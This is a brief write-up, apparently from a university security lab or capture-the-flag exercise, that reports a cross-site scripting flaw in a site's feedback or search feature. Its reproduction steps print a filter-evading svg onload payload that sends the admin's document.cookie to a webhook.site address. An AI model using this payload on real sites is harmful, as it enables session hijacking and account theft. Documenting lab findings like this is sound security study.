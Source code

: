 # ist193587

## Vulnerabilty

Cross-site scripting.

## Where

On the link of the bug/feature part.

## Impact

Allows the user to execute script commands on the admin's browser in this case to get the cookies

## Steps to Reproduce

1. First I discovered where it could be executed, since the feedback portion says that what we say is gonna be shared with them i believed that there was a big chance that what was sent is gonna be read by a admin, with this in mind i used Webhook, to have a site i could control.
2. But in this case we knew that keywords like script were getting filtered out so i figured this type of payload might pass `<svg onload=window.location.replace("https://webhook.site/<random_identifier_you_were_given>?cookie=?cookie="+document.cookie)>` after url encoding it and adding it to `http://mustard.stt.rnl.tecnico.ulisboa.pt:22252/?search=` and we are able to get the admin's cookie.